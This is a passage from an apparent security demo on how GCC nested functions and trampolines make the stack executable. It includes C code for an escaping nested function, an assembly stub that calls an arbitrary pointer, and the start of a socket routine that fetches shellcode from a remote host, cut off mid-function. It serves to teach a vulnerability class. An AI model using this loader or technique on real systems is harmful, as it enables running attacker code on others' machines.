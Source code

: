 Even though this example assumes complete control over source code, executable stack can be identically abused in already compiled binaries,
if another vulnerability in code offers an entry point for arbitrary memory write.  

To clarify, this demo does not go into detail on how nested functions and trampolines actually work, 
instead, it points at the **seemingly** irrelevant consequences of using these GCC extensions.

The following code will represent the enclosing and nested function in our demo:
```c
void* foo(void) {
    /* harmless nested function `bar()` */
    int bar(void) { 
        char name_buf[256] = { 0 };
        puts("I'm a harmless function!\n");
        puts("Please tell me your name!\n");
        printf("Your name: ");
        fflush(stdout);
        fgets(name_buf, 255, stdin);
        name_buf[strcspn(name_buf, "\0")] = 0;
        printf("Hi %s!\n", name_buf);

        return 0; 
    }
    
    /* exposes the address of nested function outside of it's local scope */
    return bar;
}
```

The nested function will be executed using the the following `exec()` function: 
```c
/* the argument passed as to `exec()` is the address of nested function `bar()` */
void __attribute__ ((__naked__)) exec(void (*func)()) {
    __asm__ volatile ( 
            ".intel_syntax noprefix;"
            "call rdi;" /* the function's address will be passed in RDI register, *
                         * so we can directly call it                             */
            ".att_syntax;"
            ::          /* no output/input operands */
            : "rdi"     /* rdi register clobber */
    );
}
```

Next, this simple implementation of network communication by the help of Linux sockets will be utilized for retrieving the shellcode from a remote source:

```c
#define FD_INVALID -1

int fetch_bytes(const char *destip, uint16_t destport, byte *outbuf, size_t bufsiz) {
    if (NULL == outbuf || 0 == bufsiz) {
        return EXIT_FAILURE;
    }

    int ret_code = EXIT_SUCCESS;
    char reply_buf[512] = { 0 };    /* will store unformatted fetched remote data */
    char *payload_ptr = NULL;       /* points to the beginning of actual shellcode */
    const char request[] =
            "GET /payload\r\n\r\n"; /* the shellcode resides in remote file named `payload` */
    
    int sockfd = FD_INVALID;
    size_t recvlen = 0;
    struct sockaddr_in remote;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
```